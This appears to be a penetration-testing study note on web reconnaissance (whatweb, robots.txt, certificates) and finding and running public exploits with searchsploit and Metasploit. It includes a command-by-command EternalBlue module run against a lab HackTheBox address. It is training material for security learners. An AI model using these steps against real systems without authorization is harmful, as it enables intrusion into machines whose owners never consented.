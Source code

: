 - Whatweb 
  - We can extract the version of web servers, supporting frameworks, and applications using the command-line tool whatweb
  - `whatweb 10.10.10.121`
  - `whatweb --no-errors 10.10.10.0/24`

- Certificates
  - SSL/TLS certificates are another potentially valuable source of information if HTTPS is in use. 

- Robots.txt
  - It is common for websites to contain a robots.txt file, whose purpose is to instruct search engine web crawlers such as Googlebot which resources can and cannot be accessed for indexing.
  - The robots.txt file can provide valuable information such as the location of private files and admin pages
  - `User-agent: *\nDisallow: /private`

- Source code
  - We can hit [CTRL + U] to bring up the source code window in a browser

  
## Public Exploits

- Google
- Searchsploit can be used to search for public vulnerabilities/exploits for any application
  - `sudo apt install exploitdb -y` -> e.g. `searchsploit openssh 7.2`
- Online exploit databases to search for vulnerabilities, like [Exploit DB](https://www.exploit-db.com/), [Rapid7 DB](https://www.rapid7.com/db/), or [Vulnerability Lab](https://www.vulnerability-lab.com/). 
  

- Metasploit
  - Metasploit Framework (MSF) contains many built-in exploits for many public vulnerabilities and provides an easy way to use these exploits against vulnerable targets:
  - Running reconnaissance scripts to enumerate remote hosts and compromised targets.
  - Verification scripts to test the existence of a vulnerability without actually compromising the target.
  - Meterpreter, which is a great tool to connect to shells and run commands on the compromised targets.
  - Many post-exploitation and pivoting tools.
  - `msfconsole`
  - `> search exploit eternalblue`
  - `> search cve:2009 type:exploit`
  - `> use exploit/windows/smb/ms17_010_psexec`
  - `> show options` displays the options available to configure. Any option with "Required" set to yes needs to be set for the exploit to work.
  - `> set RHOSTS 10.10.10.40`
  - `> set LHOST tun0`
  - Run `> check` to ensure the server is vulnerable:
  - Execute `> run` or `> exploit` to run the exploit.
  - Retired HackTheBox machines great for practising metasploit: Granny/Grandpa, Jerry, Blue, Lame, Optimum, Legacy, Devel

## Tools: General
